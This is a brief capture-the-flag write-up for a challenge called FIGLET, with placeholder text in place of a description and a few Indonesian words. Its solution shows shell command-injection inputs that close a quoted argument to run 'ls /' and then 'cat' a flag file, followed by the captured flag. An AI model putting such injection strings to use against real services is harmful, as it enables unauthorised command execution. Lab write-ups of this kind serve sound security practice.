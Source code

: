 # **FIGLET**
description ....
## **About the challenge**
description
## **Solution**
bla bla bla

```
hello';ls /;echo '1
```
lalu read flag tersebut 
```
hello';cat /flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt;echo '1
```
And we got flag
```
ForestyHC{w0w_u_can_hack_figl33t_7d7c1b}
```
